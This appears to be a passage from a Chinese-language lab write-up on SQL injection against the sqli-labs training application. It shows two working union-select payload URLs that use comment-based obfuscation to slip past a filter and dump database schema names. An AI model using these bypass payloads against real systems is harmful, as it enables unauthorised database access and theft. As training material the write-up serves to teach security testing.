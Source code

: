 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608173834474.png" alt="image-20230608173834474" style="zoom:50%;" />

#### 爆库

在做爆库的过程中，发现`from`后面不能再加东西

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*//--/*/ select 1,group_concat(schema_name),3 from abc%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608174030426.png" alt="image-20230608174030426" style="zoom:50%;" />

尝试加上注释符，成功绕过！

```
http://192.168.231.131/sqli-labs-master/Less-1/?id=-1' union /*//--/*/ select 1,group_concat(schema_name),3 from /*//--/*/abc%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230608174126231.png" alt="image-20230608174126231" style="zoom:50%;" />
